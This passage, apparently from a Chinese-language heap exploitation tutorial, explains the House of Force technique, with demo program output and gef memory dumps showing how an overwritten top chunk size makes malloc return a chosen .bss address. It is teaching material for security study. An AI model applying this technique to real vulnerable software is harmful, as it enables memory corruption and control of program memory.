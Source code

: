 ```text
$ gcc -g house_of_force.c
$ ./a.out
We will overwrite a variable at 0x601080

Let's allocate the first chunk of 0x10 bytes: 0x824010.
Real size of our allocated chunk is 0x18.

Overwriting the top chunk size with a big value so the malloc will never call mmap.
Old size of top chunk: 0x20fe1
New size of top chunk: 0xffffffffffffffff

The value we want to write to at 0x601080, and the top chunk is at 0x824028, so accounting for the header size, we will malloc 0xffffffffffddd048 bytes.
As expected, the new pointer is at the same place as the old top chunk: 0x824030
malloc(0x30) => 0x601080!

Now, the next chunk we overwrite will point at our target buffer, so we can overwrite the value.
old string: This is a string that we want to overwrite.
new string: YEAH!!!
```

house_of\_force 是一种通过改写 top chunk 的 size 字段来欺骗 malloc 返回任意地址的技术。我们知道在空闲内存的最高处，必然存在一块空闲的 chunk，即 top chunk，当 bins 和 fast bins 都不能满足分配需要的时候，malloc 会从 top chunk 中分出一块内存给用户。所以 top chunk 的大小会随着分配和回收不停地变化。这种攻击假设有一个溢出漏洞，可以改写 top chunk 的头部，然后将其改为一个非常大的值，以确保所有的 malloc 将使用 top chunk 分配，而不会调用 mmap。这时如果攻击者 malloc 一个很大的数目（负有符号整数），top chunk 的位置加上这个大数，造成整数溢出，结果是 top chunk 能够被转移到堆之前的内存地址（如程序的 .bss 段、.data 段、GOT 表等），下次再执行 malloc 时，攻击者就能够控制转移之后地址处的内存。

首先随意分配一个 chunk，此时内存里存在两个 chunk，即 chunk 1 和 top chunk：

```text
gef➤  x/8gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021  <-- chunk 1
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0x0000000000020fe1  <-- top chunk
0x602030:	0x0000000000000000	0x0000000000000000
```

chunk 1 真实可用的内存有 0x18 字节。

假设 chunk 1 存在溢出，利用该漏洞我们现在将 top chunk 的 size 值改为一个非常大的数：

```text
gef➤  x/8gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021  <-- chunk 1
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0xffffffffffffffff  <-- modified top chunk
0x602030:	0x0000000000000000	0x0000000000000000
```

改写之后的 size==0xffffffff。

现在我们可以 malloc 一个任意大小的内存而不用调用 mmap 了。接下来 malloc 一个 chunk，使得该 chunk 刚好分配到我们想要控制的那块区域为止，这样在下一次 malloc 时，就可以返回到我们想要控制的区域了。计算方法是用目标地址减去 top chunk 地址，再减去 chunk 头的大小。

```text
gef➤  x/8gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0xfffffffffffff051
0x602030:	0x0000000000000000	0x0000000000000000
gef➤  x/12gx 0x602010+0xfffffffffffff050
0x601060:	0x4141414141414141	0x4141414141414141
0x601070:	0x4141414141414141	0x0000000000000fa9  <-- top chunk
0x601080 <bss_var>:	0x2073692073696854	0x676e697274732061  <-- target
0x601090 <bss_var+16>:	0x6577207461687420	0x6f7420746e617720
0x6010a0 <bss_var+32>:	0x6972777265766f20	0x00000000002e6574
0x6010b0:	0x0000000000000000	0x0000000000000000
```
